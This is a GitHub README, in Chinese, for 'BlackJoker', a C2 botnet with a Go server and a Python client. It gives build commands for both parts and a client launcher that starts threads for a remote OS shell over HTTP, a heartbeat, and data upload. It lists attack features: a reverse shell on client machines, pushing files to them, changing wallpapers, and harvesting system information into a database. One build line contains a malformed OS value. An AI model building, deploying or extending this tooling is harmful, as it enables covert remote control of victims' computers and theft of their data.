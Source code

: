 # BlackJokerV0.3

**BlackJoker是一个由Golang来开发服务端使用Python来开发客户端的C2BotNet**

构架:
> BlackJoker采用C&S构架,使用HTTP反向代理通信,**目前没有开发流量加密中间件**,它拥有类似Msf的内部Shell


环境要求:

1.打开目录下的config.json文件,配置你的相关参数

2.Mysql数据库,并先行创建你在config.json中设置的表名

3.需要自定义编译客户端需要Pyinstaller or Cython工具

```
pyinstaller -F -add-data "R-Cadimn.jpg" main.py
```
开发者推荐的客户端编译代码:

```
python BlackJoker/Client/ClientPyd/Cython编译目录/setup.py build_ext --inplace

```
BlackJoker/Client/ClientPyd/Cython编译目录/blackjoker.py:
```
import BlackJokerpyx # type: ignore
import threading

if __name__ == "__main__":
    if BlackJokerpyx.init_server():
        # 启动线程
        threads = [
            threading.Thread(target=BlackJokerpyx.shell_os_http),
            threading.Thread(target=BlackJokerpyx.heartbeat_http),
            threading.Thread(target=BlackJokerpyx.heartbeat_receive_and_upload)
        ]
        for thread in threads:
            thread.start()
        for thread in threads:
            thread.join()

```

```
pyinstaller -F blackjoker.py -add-data "{python BlackJoker/Client/ClientPyd/Cython编译目录/setup.py build_ext --inplace得到的pyd文件路径}"
```

4.需要自定义编译服务端需要Golang环境

```
cd BlackJoker

go build -o Black.exe

```
Linux系统:

```
go env -w GOOS=linux GOARCH=amd64

go build -o Black.exe
```

Mac系统:

```
go env -w GOOS=darwin3 GOARCH=amd64

go build -o Black.exe
```

你也可以从我们的发行版获取BlackJoker.exe

## BlackJoker Attack Mod:

1.反弹客户端Shell

2.上传文件到客户端

3.更换客户端壁纸

4.自动获取客户端系统大量数据信息保存在数据库中

## 本次更新内容:
 见发行版

## 使用说明:
你可以在BlackJoker的运行过程中得到一切使用指引

注意 项目仍在努力更新中
